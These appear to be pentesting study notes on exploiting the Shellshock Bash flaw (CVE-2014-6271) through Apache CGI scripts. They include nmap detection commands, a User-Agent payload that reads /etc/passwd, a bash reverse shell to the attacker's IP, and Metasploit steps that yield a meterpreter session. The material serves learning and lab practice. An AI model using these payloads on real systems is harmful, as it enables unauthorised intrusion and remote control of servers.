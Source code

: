 # 1 - Exploiting Bash CVE-2014-6271 Vulnerability Shellshock

### **CVE-2014-6271 - Shellshock**

* Shellshock (CVE-2014-6271) is the name given to a family of vulnerabilities in the Bash shell (since V1.3) that allow an attacker to execute arbitrary commands via Bash, consequently allowing the attacker to obtain remote access to the target system via a reverse shell.
* The Shellshock vulnerability was discovered by Stéphane Chazelas on the 12th of September 2014 and was made public on the 24 September 2014.
* Bash is a \*Nix shell that is part of the GNU project and is the default shell for most Linux distributions.
* The Shellshock vulnerability is caused by a vulnerability in Bash, whereby Bash mistakenly executes trailing commands after a series of characters: () {:;};.
* This vulnerability only affects Linux as Windows does not utilize Bash as it is not a \*Nix based operating system.
* In the context of remote exploitation, Apache web servers configured to run CGI scripts or .sh scripts are also vulnerable to this attack.
* CGI (Common Gateway Interface) scripts are used by Apache to execute arbitrary commands on the Linux system, after which the output is displayed to the client.

### **Shellshock Exploitation**

* In order to exploit this vulnerability, you will need to locate an input vector or script that allows you to communicate with Bash.
* In the context of an Apache web server, we can utilize any legitimate CGI scripts accessible on the web server.
* Whenever a CGI script is executed, the web server will initiate a new process and run the CGI script with Bash.
* This vulnerability can be exploited both manually and automatically with the use of an MSF exploit module.



## **Practical Demonstration**

`nmap -sV $ip` - scan.

First, look in the source code of the page of the web server to find .cgi scripts that are being used.

`nmap sV $ip --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi"`  - Check if the web server is vulnerable to Shellshock with Nmap, the pathToCgiScript is "/gettime.cgi"

### Manual Exploitation using BurpSuite

1 - First, change the proxy to the BurpSuite proxy (with FoxyProxy for convenience).

2 - In BurpSuite, make sure that Proxy > Intercept is on.Then, refresh the cgi script page to intercept it with BurpSuite. In this case we are going to be injecting the special characters in the "User Agent Http Header"

3 - Send the intercepted info to the repeater (Right click -> Send to repeater).

4 - Change the user-agent content to:&#x20;

`() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'`

Then click send and watch the result of the command in the Response tab.

#### To get a reverse shell using Shellshock and BurpSuite:

`nc -nlvp 1234` - Set up a listener with Netcat on kali.

Enter malicious code into the BurpSuite request: by replacing the `'cat /etc/passwd'` field with..

`'bash -i>&/dev/tcp/$kali_ip/1234 0>&1'` &#x20;

Hit Send and we get a session from our listener.

### Automatic Exploitation with MSF

```bash
# start msfconsole.
service postgres start && msfconsole
search shellshock

# 1
# check if the server is vulnerable to the exploit
use auxiliary/scanner/http/apache_mod_cgi_bash_env

# 2
# the exploit module
use exploit/multi/http/apache_mod_cgi_bash_env_exec
options
set RHOSTS $ip
set TARGETURI /gettime.cgi
exploit
# we get a meterpreter session.
```

